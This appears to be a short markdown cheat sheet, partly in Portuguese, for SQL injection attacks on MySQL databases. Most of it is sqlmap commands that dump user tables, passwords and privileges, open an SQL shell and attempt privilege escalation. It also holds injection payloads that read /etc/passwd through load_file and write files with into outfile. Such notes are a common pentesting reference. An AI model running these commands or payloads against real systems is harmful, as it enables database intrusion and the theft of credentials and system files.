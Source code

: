     sqlmap -r req.txt --users --privilege
    sqlmap -r req.txt -D cadastro --dump
    sqlmap -r req.txt --sql-shell
    sqlmap -r req.txt  --hex --proxy=http://192.168.1.254:8080
 
    sqlmap -r req.txt  --dbms=mysql --os=linux --tables
    sqlmap -r req.txt  --dbms=mysql --os=linux --tables --T usuarios
    sqlmap -r req.txt  --dbms=mysql --os=linux --tables -T usuarios -v --dump
    sqlmap -r req.txt  --dbms=mysql --os=linux --users --passwords
    sqlmap -r req.txt  --dbms=mysql --os=linux --users --passwords --proxy=http://127.0.0.1:8080
    sqlmap -r req.txt  --dbms=mysql --os=linux --proxy=http://192.168.1.254:8080 --comments --priv-esc
    sqlmap -d "mysql://root:@10.10.10.10:3306/users" -f --banner
    sqlmap -r req.txt  --dbms=mysql --os=linux --proxy=http://192.168.1.254:8080 --current-db --ROLES
    sqlmap -r req.txt  --dbms=mysql --os=linux --proxy=http://192.168.1.254:8080 --current-db --roles

 
## Dumps específicos
 
	 sqlmap -r req.txt  --dbms=mysql --os=linux --tables -T usuarios -v --dump
 
 podemos utilizar o parâmetro -C para selecionar uma coluna específica também, a qual queremos verificar os dados:
 
	 sqlmap -r req.txt  --dbms=mysql --os=linux --tables -T usuarios -C password -v --dump


## Reading files with mysql

basic syntax

    select load_file('/etc/passwd')
    
## Writing files with sql injection

basic syntax

 - Mysql
 
        select load_file('/etc/passwd') into outfile '/root/teste_sqli2.txt';
        select vuln_id from vuln_details_table into outfile 'root/teste_sqli3.txt';
    
    
first try:
    
    1'; select load_file('/etc/passwd') in outfile '/home/osboxes/teste.txt'; --+ /* the 'in' directive is not correct */
    1'; select load_file('/etc/passwd') into outfile '/home/osboxes/teste.txt'; --+
    1' and select table_name, column_name, null from information_schema.columns;--+
 
